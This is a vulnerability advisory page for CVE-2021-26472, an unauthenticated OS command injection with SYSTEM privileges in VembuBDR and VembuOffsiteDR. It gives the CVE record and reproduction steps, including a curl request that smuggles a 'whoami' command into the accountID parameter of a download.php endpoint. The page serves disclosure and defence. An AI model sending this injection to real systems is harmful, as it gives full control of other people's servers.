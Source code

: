 ```yaml
---
layout: cve-json-40
author: Frank Breedijk
discovered_by: Wietse Boonstra
json : {
    "CVE_data_meta": {
        "ASSIGNER": "cve@mitre.org",
        "DATE_PUBLIC": "2021-07-07T10:49:00.000Z",
        "ID": "CVE-2021-26472",
        "STATE": "PUBLIC",
        "TITLE": "Unauthenticated remote command execution with SYSTEM privileges in Vembu products"
    },
    "affects": {
        "vendor": {
            "vendor_data": [
                {
                    "product": {
                        "product_data": [
                            {
                                "product_name": "VembuBDR",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "=",
                                            "version_name": "4.2.x",
                                            "version_value": "4.2.0.1"
                                        },
                                        {
                                            "version_affected": "=",
                                            "version_name": "4.2.x",
                                            "version_value": "4.2.0"
                                        },
                                        {
                                            "version_affected": "=",
                                            "version_name": "4.1.x",
                                            "version_value": "4.1.0"
                                        },
                                        {
                                            "version_affected": "=",
                                            "version_name": "4.0.x",
                                            "version_value": "4.0.2"
                                        },
                                        {
                                            "version_affected": "=",
                                            "version_name": "4.0.x",
                                            "version_value": "4.0.1"
                                        },
                                        {
                                            "version_affected": "=",
                                            "version_name": "4.0.x",
                                            "version_value": "4.0.0"
                                        },
                                        {
                                            "version_affected": "=",
                                            "version_name": "3.9.x",
                                            "version_value": "3.9.1 Update1"
                                        },
                                        {
                                            "version_affected": "=",
                                            "version_name": "3.9.x",
                                            "version_value": "3.9.0 Update1"
                                        },
                                        {
                                            "version_affected": "=",
                                            "version_name": "3.9.x",
                                            "version_value": "3.9.0"
                                        },
                                        {
                                            "version_affected": "=",
                                            "version_name": "3.8.x",
                                            "version_value": "3.8.0"
                                        },
                                        {
                                            "version_affected": "=",
                                            "version_name": "3.7.x",
                                            "version_value": "3.7.0"
                                        },
                                        {
                                            "version_affected": "=",
                                            "version_name": "3.5.x",
                                            "version_value": "3.5.0.0"
                                        }
                                    ]
                                }
                            },
                            {
                                "product_name": "VembuOffsiteDR ",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "=",
                                            "version_name": "4.2.x",
                                            "version_value": "4.2.0.1"
                                        },
                                        {
                                            "version_name": "4.2.x",
                                            "version_value": "4.2.0"
                                        }
                                    ]
                                }
                            }
                        ]
                    },
                    "vendor_name": "VembuBDR"
                }
            ]
        }
    },
    "credit": [
        {
            "lang": "eng",
            "value": "Discovered by Wietse Boonstra"
        },
        {
            "lang": "eng",
            "value": "Addional research by Frank Breedijk"
        }
    ],
    "data_format": "MITRE",
    "data_type": "CVE",
    "data_version": "4.0",
    "description": {
        "description_data": [
            {
                "lang": "eng",
                "value": "In VembuBDR before 4.2.0.1 and VembuOffsiteDR before 4.2.0.1 installed on Windows, the http API located at  /consumerweb/secure/download.php. Using this command argument an unauthenticated attacker can execute arbitrary OS commands with SYSTEM privileges.\n"
            }
        ]
    },
    "generator": {
        "engine": "Vulnogram 0.0.9"
    },
    "impact": {
        "cvss": {
            "attackComplexity": "LOW",
            "attackVector": "NETWORK",
            "availabilityImpact": "HIGH",
            "baseScore": 10,
            "baseSeverity": "CRITICAL",
            "confidentialityImpact": "HIGH",
            "integrityImpact": "HIGH",
            "privilegesRequired": "NONE",
            "scope": "CHANGED",
            "userInteraction": "NONE",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H",
            "version": "3.1"
        }
    },
    "problemtype": {
        "problemtype_data": [
            {
                "description": [
                    {
                        "lang": "eng",
                        "value": "CWE-78 OS Command Injection"
                    }
                ]
            }
        ]
    },
    "references": {
        "reference_data": [
            {
                "name": "https://csirt.divd.nl/cves/CVE-2021-26472/",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/cves/CVE-2021-26472/"
            },
            {
                "name": "https://csirt.divd.nl/cases/DIVD-2020-00011/",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/cases/DIVD-2020-00011/"
            },
            {
                "name": "https://csirt.divd.nl/2021/05/11/Vembu-zero-days/",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/2021/05/11/Vembu-zero-days/"
            },
            {
                "name": "https://www.wbsec.nl/vembu",
                "refsource": "CONFIRM",
                "url": "https://www.wbsec.nl/vembu"
            }
        ]
    },
    "source": {
        "advisory": "DIVD-2020-00011",
        "discovery": "EXTERNAL"
    }
}
---
```

## How to reproduce
Step 1: Install a vulnerable product on Windows

Step 2: execute the following http request
```bash
$ curl 'http://local/consumerweb/secure/download.php?Action=ResellerTemplate&accountID=%26whoami'
```

Step 3: Result

![Screenshot that proves RCE happened with SYSTEM privileges](assets/images/cve-2021-26472.png)

## Impact
This vulnerability allows an attacker to execute arbitrary windows commands with full system privileges. A.k.a. a full system compromise.


